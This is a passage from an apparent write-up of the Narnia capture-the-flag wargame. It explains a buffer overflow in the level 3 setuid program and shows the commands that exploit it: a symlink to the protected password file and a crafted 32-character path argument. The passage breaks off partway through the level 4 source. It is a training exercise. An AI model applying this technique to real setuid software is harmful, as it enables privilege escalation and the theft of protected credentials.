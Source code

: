         /* close 'em */
        close(ifd);
        close(ofd);
 
        exit(1);
}

{{< / highlight >}}

At first glance this looks a bit more complicated. However it is just another
buffer overflow (line 13 and 22). This time however we don't control the stack, 
we control where the file gets written to. `/dev/null` is not a useful place
for data, and we want the contents of `/etc/narnia_pass/narnia4`. As `narnia3` runs 
setuid narnia4, it can do that for us.

First we determine that we need 32 characters to overflow the buffer. Then anything
beyond that will get written to the ofile. So the plan is to to create a symlink to
`narnia4` that is 32 characters long, and then write that to the target. The issue here
is that the source path's last 16 characters need to be the same as the target.
So to do this I created the following directory and symlink:

{{< highlight console >}}
narnia3@melinda:/narnia$ mkdir -p /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4
{{< / highlight >}}

Now when we pass that to `narnia3`:

{{< highlight console >}}
narnia3@melinda:/narnia$ ./narnia3 `python -c "print '/tmp/' + 'x'*27 + '/tmp/narn4'"` 
copied contents of /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4 to a safer place... (/tmp/narn4)
narnia3@melinda:/narnia$ cat /tmp/narn4 
[password]
{{< / highlight >}}

It's a little odd, but I hope you understand what happened. The last part of the 
first path has to be a valid path, so that it can be written to. That's why we have 
the double `/tmp` setup.

## Level 04 ##

{{< highlight c "linenos=table" >}}
#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <ctype.h>

extern char **environ;

int main(int argc,char **argv){
	int i;
	char buffer[256];

	for(i = 0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
